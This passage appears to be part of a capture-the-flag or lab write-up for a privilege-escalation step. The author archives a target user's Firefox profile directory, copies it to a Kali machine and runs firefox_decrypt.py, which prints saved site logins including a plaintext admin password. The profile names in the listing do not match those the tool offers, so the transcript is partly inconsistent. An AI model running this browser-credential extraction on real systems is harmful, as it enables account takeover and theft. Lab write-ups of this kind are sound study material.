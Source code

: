 ### Priv Esc to System user

There is a `.mozilla` dir in the "/home/system" dir.

```bash
# compress it and send to kali for analysis.
zip /tmpbrowser.zip .mozilla -r
```

IN kali

```bash
dking@dking ~/Downloads/.mozilla/firefox$ l                                                                    
total 76K
drwxr-xr-x  7 dking dking 4.0K Nov 14 09:43  .
drwxr-xr-x  4 dking dking 4.0K Jun 14  2022  ..
drwxr-xr-x 13 dking dking 4.0K Jun 14  2022  2fjnrwth.default-release
drwxr-xr-x  2 dking dking 4.0K Jun 14  2022  2o9vd4oi.default
drwxr-xr-x 13 dking dking 4.0K Jun 14  2022  8mk7ix79.default-release
drwxr-xr-x  3 dking dking 4.0K Jun 14  2022 'Crash Reports'
-rw-r--r--  1 dking dking  39K Nov 14 09:43  firefox_decrypt.py
-rwxr-xr-x  1 dking dking   62 Jun 14  2022  installs.ini
drwxr-xr-x  2 dking dking 4.0K Jun 14  2022 'Pending Pings'
-rwxr-xr-x  1 dking dking  259 Jun 14  2022  profiles.ini
dking@dking ~/Downloads/.mozilla/firefox$ cat profiles.ini                                                     
[Install4F96D1932A9F858E]
Default=8mk7ix79.default-release
Locked=1

[Profile1]
Name=default
IsRelative=1
Path=2o9vd4oi.default
Default=1

[Profile0]
Name=default-release
IsRelative=1
Path=8mk7ix79.default-release

[General]
StartWithLastProfile=1
Version=2

dking@dking ~/Downloads/.mozilla/firefox$ nano profiles.ini                                                    
dking@dking ~/Downloads/.mozilla/firefox$ nano profiles.ini                                                    
dking@dking ~/Downloads/.mozilla/firefox$ python3 /opt/firefox_decrypt.py                                      
Select the Mozilla profile you wish to decrypt
1 -> 9l8sg3lz.default
2 -> rt5aiw6s.default-esr
2

Website:   http://severnaya-station.com
Username: 'admin'
Password: 'xWinter1995x!'

Website:   http://10.10.21.37
Username: 'test'
Password: 'test'
```